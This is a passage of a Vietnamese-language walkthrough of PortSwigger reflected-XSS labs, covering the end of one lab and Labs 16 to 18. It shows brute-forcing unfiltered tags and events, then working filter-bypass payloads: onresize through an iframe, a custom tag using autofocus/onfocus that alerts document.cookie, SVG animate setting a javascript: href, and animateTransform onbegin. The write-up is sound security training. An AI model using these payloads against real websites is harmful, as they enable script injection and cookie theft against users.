**B2**. Cấu hình thêm danh sách wordlist, wordlist mình sẽ lấy ở trang XSS cheatsheet của PortSwigger, có cung cấp sẵn các thẻ, chỉ cần copy và dán, tham khảo https://portswigger.net/web-security/cross-site-scripting/cheat-sheet  
  
**B3**. Lọc kết quả, tìm gói tin có response là 200, thu được `body` và `custom tag`  
  

Payload tiếp theo mình thử là `<body onload=alert(1)>`, tuy nhiên lần này thì thuộc tính cũng có bộ lọc riêng nữa.  
  

Vậy là phải bruteforce tiếp, các bước mình thực hiện tương tự như trên, chỉ khác là wordlist mình lấy là tên thuộc tính event.  
  

Kết quả trả về là các thuộc tính không bị filter.  
  

Trong những kết quả trên, mình phát hiện event onresize là một trong những event không cần tương tác để thực thi. Thử `<body onresize='alert(1)'`với trang search, mình hoàn toàn có thể trigger script mỗi khi thay đổi kích thước trang.  
Ở trang exploit server, mình nhập payload vào phần body. Đầu tiên, iframe sẽ được khởi tạo với kích thước mặc định. Sau đó `onload`  được thực thi, thay đổi kích thước `iframe`, dẫn đến trigger được `onresize`.   
```html
<iframe src="LAB-URL/?search=%3Cbody+onresize%3Dprint%28%29%3Etest" onload=this.style.width='500px'>
```


# Lab 16: Reflected XSS into HTML context with all tags blocked except custom ones
Đề cung cấp thông tin lỗi XSS nằm trong chức năng search, yêu cầu chèn custom tag kích hoạt event alert(document.cookie).  

Về custom tags, đây là các thẻ mà mình tự thêm vào, chứ không phải các thẻ bình thường như `<a>`, `<h1>`,... Mình có thể thêm tag như `<attt>`, thậm chí có thể thêm thuộc tính cho chúng. Tham khảo https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_custom_elements#using_a_custom_element  

Tag này hoạt động như một tag chữ bình thường, ví dụ như `<p>`, có nghĩa là không sử dụng được `onload`.  

Vậy thì mình sử dụng payload `onfocus` để khai thác 
```html
<attt onfocus=alert(1) autofocus tabindex=1>
```

Payload tự động thực thi không cần tương tác thông qua event `onfocus`, `tabindex=1` sẽ khai báo tiêu điểm, cho phép sử dụng focus, còn `autofocus` báo cho trình duyệt tự động tập trung vào tiêu điểm của thẻ này, trigger event `onfocus`.

Ở server exploit, mình sẽ nhập phần body 
```html
<script>
location = 'LAB-URL/?search=%3Cattt+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E';
</script>
```
   

Khi gửi đi, nạn nhân sẽ tự động điều hướng thông qua `location="URL"`

# Lab 17: Reflected XSS with event handlers and href attributes blocked
Đề cung cấp thông tin lỗi XSS nằm trong chức năng search, trang web sẽ chặn một số thẻ, tuy nhiên  tất cả events và thuộc tính href sẽ bị chặn. Đề yêu cầu tạo một đường dẫn Click me, mà khi nhấn sẽ trigger `alert()`.  

Mình bruteforce tìm các thẻ có không bị chặn với Intruder.  
  

Mình tìm được các thẻ    
  

Trong danh sách các thẻ tìm được, thẻ `title` thì không có event, thẻ `image` thì các event đều bị chặn.  
Đề có đề cập không cho phép sử dụng `href`, vậy có có cách nào gián tiếp để thực hiện yêu cầu đề không?   

Tham khảo tài liệu với các thẻ tìm được, mình phát hiện thẻ `animate svg` cho phép thay đổi thuộc tính cha, gián tiếp thay đổi thuộc tính, tham khảo https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animate  
   

Nội dung tham khao trên có đề cập đến thẻ `svg`, tham khảo tài liệu `svg`, mình phát hiện `svg` cung cấp rất nhiều các thẻ svg như `a`, `text`, lưu ý rằng đây là các thẻ `a svg` chứ không phải là `a html`, tham khảo https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/a.  

Dựa vào ví dụ cung cấp trong tài liệu, mình có thể sử dụng `svg` để tạo một đoạn link `Click me` với payload.
  
```html
<svg><a><text x="150" y="100" text-anchor="middle">Click me</text></a></svg>
```

Kết quả là một đoạn text `Click me` được nhúng link.  
  

Dựa vào thông tin tham khảo được từ ví dụ của `animate svg`, mình có thể gián tiếp nhúng một đường dẫn với href như sau
```html
<animate attributeName="href" values="javascript:alert(1)"/>
```

Nếu bọc thẻ `a` ở ngoài thì `<animate attributeName="href" values="javascript:alert(1)"/>` sẽ gián tiếp gán thuộc tính `href='javascript:alert(1)'` cho thẻ `a`.  
Kết hợp 2 thông trên lại với nhau, mình có payload hoàn chỉnh để hoàn thành lab.  
```html
<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="150" y="100" text-anchor="middle">Click me</text></a></svg>
```

# Lab 18: Reflected XSS with some SVG markup allowed
Đề cung cấp thông tin lỗi XSS nằm trong chức năng search, trang web sẽ chặn một số thẻ phổ biến, tuy nhiên lại thiếu các thẻ và sự kiện của `svg`, yêu cầu trigger `alert()`.  

Mình bruteforce tìm các thẻ không bị chặn.  
  

Trong danh sách các thẻ tìm được, thẻ `title` thì không có event, thẻ `image` thì các event đều bị chặn, chỉ còn lại `svg` và `animatetransform`.  

Tìm hiểu tài liệu, mình phát hiện `animateTransform` có thể khai thác theo cách tương tự với lab trên, tham khảo https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animateTransform  
   

Mình định khai thác tương tự như bài trên. Tuy nhiên, `animateTranform` chỉ có thể thao tác với thuộc tính `transform` của thẻ cha, không như `animate` có thể thao tác với các thuộc tính của thẻ cha, có nghĩa là không thể sử dụng `attributeName="href" values="javascript:alert(1)"` như lab trên.     

Vì đề không chặn toàn bộ các event svg, mình bruteforce tìm các event này. Mình phát hiện được `onbegin` không bị block.  
   

Payload sẽ trở thành.
```html
<svg><animateTransform onbegin=alert(1)>
```

# Lab 19: Reflected XSS in canonical link tag
